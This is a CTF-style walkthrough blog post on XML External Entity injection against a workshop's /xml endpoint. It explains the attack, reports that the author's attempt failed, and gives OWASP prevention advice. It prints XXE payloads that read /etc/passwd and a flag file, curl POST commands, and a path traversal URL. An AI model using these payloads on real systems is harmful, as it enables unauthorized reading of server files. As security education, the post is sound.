

### **Day 17: XML External Entity (XXE) Injection \- Hacker Sidekick Certified Vibe Hacker CTF Walkthrough** 

**\#\# Challenge:**  Vulnerability: XML External Entity injection allows reading arbitrary files from the server through insecure XML parsing. The flag is stored in /app/data/xxe\_flag.txt. Exploit XXE injection to read the file contents at the /xml endpoint.  
Since I got the flag for this challenge from yesterday’s solution Day 16: Path Traversal, I thought I would tackle this using the proper exploit xxe injection. This is the intended solution for this challenge and I tried my best to research this attack method, understand how to approach it and make estimate guesses to its solution. Spoiler alert I couldn’t find it\! At some point I did end up asking Hacker Sidekick to solve this challenge which reassured my inability to find the flag with the xxe injection…  

**\#\# Methodology:**  
Following the steps from Day 16’s solution and performing a Path Traversal you can add the **download?file=../data/xxe\_flag.txt** into your browser and traverse to retrieving the contents of the xxe\_flag.txt.   

Now let's examine the methodology we would follow if the xxe injection attack worked.  
The typical payload looks something like this  
**\<?xml version="1.0" encoding="UTF-8"?\>  
\<\!DOCTYPE foo \[ \<\!ENTITY xxe SYSTEM "file:///etc/passwd"\> \]\>  
\<stockCheck\>\<productId\>\&xxe;\</productId\>\</stockCheck\>**

This payload example is trying to retrieve the contents of the passwd file so if we change a few things around with the hints we are given for the challenge we would end up with a payload like this 

**\<?xml version="1.0" encoding="UTF-8"?\>  
\<\!DOCTYPE foo \[ \<\!ENTITY xxe SYSTEM  
 "file:///app/data/xxe\_flag.txt"\> \]\>  
\<foo\>\&xxe;\</foo\>**

So let’s break this payload down

| \<?xml version="1.0" encoding="UTF-8"?\> | This the XML declaration and inside is the a version specification for the XML document and the encoding that tells the parser what character encoding to expect |
| :---- | :---- |
| \<\!DOCTYPE foo \[ … \]\> | This is a **Do**cument **Type** definition for the element **foo** that lives inside the brackets |
| \!ENTITY xxe SYSTEM  "file:///app/data/xxe\_flag.txt"  | This is the entity declaration **ENTITY** **xxe** is the name of the entity **SYSTEM** is the keyword that tells the parser the entity's value comes from an external resource identified by a URI, in this case a local file path on the server  **“filepath”** is where the parser will look resolve this external entity |
| \<foo\>\&xxe;\</foo\> | This is the body of the document **Foo** is the root element name that was declared previously **\&xxe** is a reference to the entity that was declared inside the **DOCTYPE ;** the semicolon closes the entity reference |

1. The first step is to identify the endpoint of the attack which is already given to us **/xml**. So type [**https://certifiedvibehacker.com/xml**](https://certifiedvibehacker.com/xml) into your browser and the result should be something like. However as you can see in the following image we are not allowed to do that…

2. If step 1 was successful we would move on to sending a basic XML payload via the command line curl and POST. That would look like 

**curl \-s \-X POST https://certifiedvibehacker.com/xml \\  
     \-H "Content-Type: application/xml" \\  
     \-d "\<test\>hello\</test\>"**

| curl \-s \-X POST https://certifiedvibehacker.com/xml \\ | curl \- command line tool that makes the HTTP request aka visiting the website s \- means silent X POST \- sets the HTTP method that curl follows to POST \- the default is GET Link \- the website visiting |
| :---- | :---- |
|   \-H "Content-Type: application/xml" \\ | **H** stands for header and this command sets the **Content-Type** inside the header to **application/xml** and then the server receiving this request knows to parse it as XML |
| \-d "\<test\>hello\</test\>" | **d** means data and this is the body of the request with one element named **test** that contains the text **hello** |

\*Instead of **\-d** this could be a filename.xml with the same command

3. And the response we would expect would be a json file like   
**{ "data": "\<test\>hello\</test\>",  
  "status": "success" }** 
This response is the server’s confirmation that it can parse through my XML and we can see how it separated the **data** and we also got back a successful **status**. So we can confirm that the endpoint actually does accept POST requests. 

4. The next step is to send the payload which would look something like this,

**\<?xml version="1.0" encoding="UTF-8"?\>  
\<\!DOCTYPE foo \[ \<\!ENTITY xxe SYSTEM  
 "file:///app/data/xxe\_flag.txt"\> \]\>  
\<foo\>\&xxe;\</foo\>**

Unfortunately the response I got was 
**{ "message": "undefined entity \&xxe;: line 1, column 74",  
  "status": "error" }**
If this was successful I would have received a response with the contents of xxe\_flag substituted inside a Json file most likely  
The response that I got returns an error message saying that the entity inside foo is not defined; that is because it was not able to resolve the entity and retrieve the value and so this is unsuccessful.

5. And then I tried a GET request

**curl \-s \-X GET [https://certifiedvibehacker.com/xml](https://certifiedvibehacker.com/xml)**

And I got this response,
**\<\!doctype html\>  
\<html lang=en\>  
\<title\>405 Method Not Allowed\</title\>  
\<h1\>Method Not Allowed\</h1\>  
\<p\>The method is not allowed for the requested URL.\</p\>**

This is the same thing as me clicking on that path through my browser and it is good from a cybersecurity standpoint   
Thus the **/xml** endpoint only accepts POST and not GET requests, which is the command I need to retrieve the flag from xxe\_flag.txt and this is where I got stuck\!

But if it was allowed these steps should read the flag.

**\#\# The why:**  
The XML External Entity Injection is a web security vulnerability which interferes with the XML parser. It can allow an attacker to view files on the server or interact with back end and external systems of the application. 

There are different types of XXE attacks according to portswigger such as

- XXE to retrieve files, like what today’s challenge is asking us to do  
- XXE to perform SSRF attacks, we saw an example of an SSRF attack on Day 5  
- XXE to exfiltrate data to another system  
- XXE to retrieve data via error messages

XXE injection is classified as **CWE 611**: Improper Restriction of XML External Entity Reference.

**\#\# Prevention:**  
According to OWASP the general guideline to preventing **DTDs** aka External Entities is to disable all of them in the first place. Similar to Path traversal of avoiding user input for today the best and strongest solution disable all DTDs.  
OWASP also provides a table with various external entities or document type declarations that have to be disabled. The one that is probably implemented today and therefore did not let me GET the request with the flag was Disallow DOCTYPE Declaration. This is listed in OWASP's XML Parser Security Features Matrix as the feature that prevents ENTITY definitions from being processed in the first place. This matches with the error requests I got and the blocks met.

**\#\# Summary:**

In this challenge of [Certified Vibe Hacker Workshop](https://certifiedvibehacker.com/) by [Hacker Sidekick](https://hackersidekick.com/) we saw an XML External Entity Injection challenge which I was not able to solve using the intended vulnerability. 

**\#\# Bibliography:**  
[CWE \- CWE-611: Improper Restriction of XML External Entity Reference (4.20)](https://cwe.mitre.org/data/definitions/611.html)   
[What is XXE (XML external entity) injection? Tutorial & Examples | Web Security Academy](https://portswigger.net/web-security/xxe)   
[XML Parser \- IBM Documentation](https://www.ibm.com/docs/en/streamsets-legacy-chcloud?topic=processors-xml-parser)   
[UTF-8 in XML Declaration. What is UTF-8? | Yeran Kods | Medium](https://medium.com/@ykods/utf-8-in-xml-declaration-d732b9865977)   
[XML External Entity Prevention \- OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)   
[Preventing XXE Attacks: Strategies for Secure XML Processing | Snyk](https://snyk.io/articles/preventing-xxe-attacks-strategies-for-secure-xml-processing/) 

